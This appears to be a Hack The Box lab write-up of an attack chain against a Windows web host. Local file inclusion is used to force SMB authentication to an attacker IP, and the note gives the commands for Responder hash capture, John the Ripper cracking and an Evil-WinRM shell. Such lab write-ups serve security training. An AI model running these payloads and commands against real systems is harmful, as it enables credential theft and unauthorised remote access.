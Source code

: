 Penetration Testing Report: 
•	LFI to WinRM Access via NetNTLMv2 Exploitation

Author: Shelby Adede  
Date:  2nd August 2025  
Target: HTB Machine (IP: 10.x.x.x)  
Objective: 54Exploit Local File Inclusion (LFI) vulnerability leading to Remote Code Execution via WinRM access.
 Initial Reconnaissance
 Nmap Scan Results
I performed an Nmap scan which revealed two open ports:
1.	**Port 80 (HTTP) - Running Apache Web Server  
2.	**Port 5985 (TCP)- Running  WinRM (Windows Remote Management)
OS Detection: Windows was identified as the underlying operating system.
 WinRM Overview
WinRM (Windows Remote Management) is a native Windows service that listens on TCP port 5985. It uses SOAP to allow remote execution and administration. With valid credentials, one can remotely execute commands and manage the host using PowerShell or other interfaces.
Web Enumeration
Opening the target in a browser with `http://<target-ip>` redirected us to:
http://unika.htb-
This confirmed the use of  Name-Based Virtual Hosting. The browser failed to resolve the domain name because it was not mapped to the correct IP locally. This was resolved by editing the `/etc/hosts` file:

10.x.x.x -  unika.htb
This entry allowed the browser to resolve unika.htb to the correct machine.
Vulnerability Identification: Local File Inclusion (LFI)
The web application includes pages dynamically using parameters such as ?page=. Improper sanitization of input leads to LFI vulnerability, which allows path traversal using:
../../../../windows/system32/drivers/etc/hosts
LFI is dangerous as it may allow reading sensitive local files. In some cases (such as on misconfigured systems), it may also lead to Remote Code Execution.
Exploiting LFI via Remote File Inclusion (RFI) with Responder
On Windows systems, we can exploit this LFI to force the server to authenticate to our machine using SMB. By including a remote path like:
//10.10.14.6/somefile
The server attempts to access this remote location via SMB, initiating an authentication request.
Capturing NetNTLMv2 Hashes
Using Responder, we set up a fake SMB server on our attacker machine.

1.	sudo git clone https://github.com/lgandx/Responder
2.	Navigate to the directory: cd Responder
3.	sudo python3 Responder.py -I <your_interface>
Once Responder is active, trigger the LFI with the remote path to make the Windows host try to authenticate.
Responder will capture the NetNTLMv2 hash during this process.
Cracking NetNTLMv2 with John the Ripper
•	Save the captured hash in a file:
•	Use the appropriate format and wordlist to crack it:
john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
•	If successful, John will display the cracked password.

Remote Access via Evil-WinRM
•	With valid credentials obtained from hash cracking, access the system using Evil-WinRM:
Evil-winrm -i 10.x.x.x -u <username> -p <password>
•	This provides a remote PowerShell session on the victim machine.

	Vulnerability: LFI with potential for RFI via SMB.
	Exploitation: Forced authentication captured with Responder.
	Cracked Credentials: Recovered NetNTLMv2 hash.
Access Gained: WinRM shell access using Evil-WinRM.

Notes and Observations
1)	The web server’s use of virtual hosts was key in enumeration.
2)	The vulnerability was severe enough to escalate from file read to full system compromise.
3)	Demonstrates a realistic attack chain: LFI → NetNTLMv2 Capture → Hash Cracking → WinRM Access.







